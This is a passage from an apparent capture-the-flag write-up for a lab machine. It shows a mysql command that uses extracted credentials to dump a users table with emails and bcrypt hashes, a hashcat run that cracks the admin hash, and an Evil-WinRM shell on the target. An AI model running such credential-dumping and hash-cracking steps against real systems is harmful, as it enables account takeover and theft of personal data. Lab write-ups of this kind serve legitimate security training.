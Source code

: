 I will be using this database name, user and password to extract the information's inside the `users` tables.

## 6️⃣ Database Credential Extraction

**Tools**: MySQL client (mysql.exe on target).

**Content**:

Used extracted DB creds to query: 

```powershell
PS C:\xampp\mysql\bin> .\mysql.exe -u certificate_webapp_user -p"cert*********" -h 127.0.0.1 -e "USE certificate_webapp_db; SELECT * FROM users LIMIT 8;"

id	first_name	last_name	username	email	password	created_at	role	is_active
1	Lorra	Armessa	Lorra.AAA	lorra.aaa@certificate.htb	$2y$04$bZs2FUjVRiFswY84CUR8ve02ymuiy0QD23XOKFuT6IM2sBbgQvEFG	2024-12-23 12:43:10	teacher	1
6	Sara	Laracrof	Sara1200	sara1200@gmail.com	$2y$04$pgTOAkSnYMQoILmL6MRXLOOfFlZUPR4lAD2kvWZj.i/dyvXNSqCkK	2024-12-23 12:47:11	teacher	1
7	John	Wood	Johney	johny009@mail.com	$2y$04$VaUEcSd6p5NnpgwnHyh8zey13zo/hL7jfQd9U.PGyEW3yqBf.IxRq	2024-12-23 13:18:18	student	1
8	Havok	Watterson	havokww	havokww@hotmail.com	$2y$04$XSXoFSfcMoS5Zp8ojTeUSOj6ENEun6oWM93mvRQgvaBufba5I5nti	2024-12-24 09:08:04	teacher	1
9	Steven	Roman	stev	steven@yahoo.com	$2y$04$6FHP.7xTHRGYRI9kRIo7deUHz0LX.vx2ixwv0cOW6TDtRGgOhRFX2	2024-12-24 12:05:05	student	1
10	Sara	Brawn	sara.b	sara.b@certificate.htb	$2y$04$CgDe/Thzw/Em/M4SkmXNbu0YdFo6uUs3nB.******.g8UdXikZNdH6	2024-12-25 21:31:26	admin	1
12	hacker	hacker	hacker	hacker@hacks.com	$2y$04$LdoeBgAqqPd9AuhYKPF3.earlvC/.vBbufvYpYMhQ3ZjuTEZIVwUy	2025-09-13 06:48:47	student	1
```
{: .nolineno }

Extracted password hashes and cracked them with `hashcat` and I got the result as <b><span style="color:rgb(219, 0, 0)">sara.b</span></b>
 has a password.

## 7️⃣ Password Cracking and Sara.B Access

**Tools**: Hashcat for cracking.

**Content**:

Extracted hashes (bcrypt $2y$04$), cracked with hashcat tool.

```bash
└─$ hashcat -m 3200 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt --show 
$2y$04$CgDe/Thzw/Em/M4SkmXNbu0YdFo6uUs3nB.pzQPV.g8UdXikZNdH6:B*****2
```
{: .nolineno }

I got the wimrm session for <b><span style="color:rgb(219, 0, 0)">Sara.b</span></b>
 user 🔻

```powershell
*Evil-WinRM* PS C:\Users\Sara.B> tree /f /a
Folder PATH listing
Volume serial number is 7E12-22F9
C:.
+---3D Objects
+---Contacts
+---Desktop
+---Documents
|   \---WS-01
|           Description.txt
|           WS-01_PktMon.pcap
|
+---Downloads
```